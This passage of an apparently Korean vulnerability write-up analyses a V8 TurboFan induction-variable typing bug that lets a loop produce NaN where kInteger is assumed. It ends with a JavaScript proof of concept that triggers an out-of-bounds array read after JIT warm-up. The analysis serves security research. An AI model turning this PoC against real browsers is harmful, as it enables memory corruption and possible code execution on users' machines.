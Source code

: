 ```cpp
[...]

return Type::Range(min, max, typer_->zone());
```

그리고 `inc`의 부호에 따라 `range`를 만들고 리턴하는데 부호가 양수`([0, inf])`나 음수`([-inf, 0])`가 아닌 경우에는 그냥 `kInteger`를 리턴한다. `kInteger`는 `[-V8_INFINITY, V8_INFINITY]`의 범위를 가진다.

지금까지 코드를 보면, `kInteger`타입으로 리턴을 하게 하려면 `kInteger`타입의 `start`와 `inc`가 있어야 하며 `inc`의 부호가 음수와 양수를 가져야한다는 것을 알 수 있다. 그러면서 `start`와 `inc`를 더했을 때 `NaN`이 나오게 해야 한다.

```cpp
if (both_types_integer) {
  Type resultant_type =
      (arithmetic_type == InductionVariable::ArithmeticType::kAddition)
          ? typer_->operation_typer()->NumberAdd(initial_type, increment_type)
          : typer_->operation_typer()->NumberSubtract(initial_type,
                                                      increment_type);
  maybe_nan = resultant_type.Maybe(Type::NaN());
}
```

이 코드를 보면 한번만 연산하여 `NaN`인지 판단한다. 하지만 반복문 내에서 inc값이 바뀐다면 이 코드를 우회하여 `NaN`을 만들 수 있다.

## PoC

```cpp
function trigger() {
  var x = -Infinity;
  var k = 0;
  for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }

      if (++k > 10) {
        break;
      }
  }

  var value = Math.max(i, 1024);
  value = -value;
  value = Math.max(value, -1025);
  value = -value;
  value -= 1022;
  value >>= 1; // *** 3 ***
  value += 10; //

  var array = Array(value);
  array[0] = 1.1;
  return [array, {}];
};

for (let i = 0; i < 20000; ++i) {
  trigger();
}

console.log(trigger()[0][11]);
```
